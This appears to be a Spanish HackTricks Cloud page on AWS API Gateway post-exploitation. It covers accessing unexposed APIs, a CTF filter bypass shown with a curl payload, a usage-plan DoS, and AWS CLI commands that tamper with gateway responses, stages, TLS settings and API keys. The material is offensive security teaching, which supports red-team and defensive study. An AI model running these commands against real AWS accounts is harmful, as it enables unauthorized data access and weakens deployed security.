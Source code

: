 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## API Gateway

Para más información revisa:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acceder a APIs no expuestas

Puedes crear un endpoint en [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con el servicio `com.amazonaws.us-east-1.execute-api`, exponer el endpoint en una red donde tengas acceso (potencialmente a través de una máquina EC2) y asignar un grupo de seguridad que permita todas las conexiones.\
Luego, desde la máquina EC2 podrás acceder al endpoint y, por lo tanto, llamar a la API del gateway que no estaba expuesta antes.

### Eludir el paso del cuerpo de la solicitud

Esta técnica se encontró en [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Como se indica en la [**documentación de AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) en la sección `PassthroughBehavior`, por defecto, el valor **`WHEN_NO_MATCH`**, al verificar el encabezado **Content-Type** de la solicitud, pasará la solicitud al back end sin transformación.

Por lo tanto, en el CTF el API Gateway tenía una plantilla de integración que **impedía que la bandera fuera exfiltrada** en una respuesta cuando se enviaba una solicitud con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Sin embargo, enviar una solicitud con **`Content-type: text/json`** evitaría ese filtro.&#x20;

Finalmente, como el API Gateway solo permitía `Get` y `Options`, fue posible enviar una consulta arbitraria a dynamoDB sin ningún límite enviando una solicitud POST con la consulta en el cuerpo y usando el encabezado `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

En la sección de **Enumeración** puedes ver cómo **obtener el plan de uso** de las claves. Si tienes la clave y está **limitada** a X usos **por mes**, podrías **simplemente usarla y causar un DoS**.

La **API Key** solo necesita ser **incluida** dentro de un **header HTTP** llamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateGatewayResponse` y `apigateway:CreateDeployment` puede **modificar una Respuesta de Gateway existente para incluir headers personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Fuga de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de la API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateStage` y `apigateway:CreateDeployment` puede **modificar una etapa existente de API Gateway para redirigir el tráfico a una etapa diferente o cambiar la configuración de caché para obtener acceso no autorizado a datos en caché**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acceso no autorizado a datos en caché, interrumpiendo o interceptando el tráfico de la API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:PutMethodResponse` y `apigateway:CreateDeployment` puede **modificar la respuesta del método de una API Gateway REST API existente para incluir encabezados personalizados o plantillas de respuesta que filtren información sensible o ejecuten scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Fuga de información sensible, ejecución de scripts maliciosos o acceso no autorizado a recursos de API.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un atacante con los permisos `apigateway:UpdateRestApi` y `apigateway:CreateDeployment` puede **modificar la configuración de API Gateway REST API para deshabilitar el registro o cambiar la versión mínima de TLS, potencialmente debilitando la seguridad de la API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Debilitar la seguridad del API, permitiendo potencialmente el acceso no autorizado o exponiendo información sensible.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un atacante con permisos `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, y `apigateway:CreateUsagePlanKey` puede **crear nuevas claves de API, asociarlas con planes de uso, y luego usar estas claves para acceder a APIs sin autorización**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acceso no autorizado a recursos de API, eludiendo controles de seguridad.

{% hint style="info" %}
Necesita pruebas
{% endhint %}

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
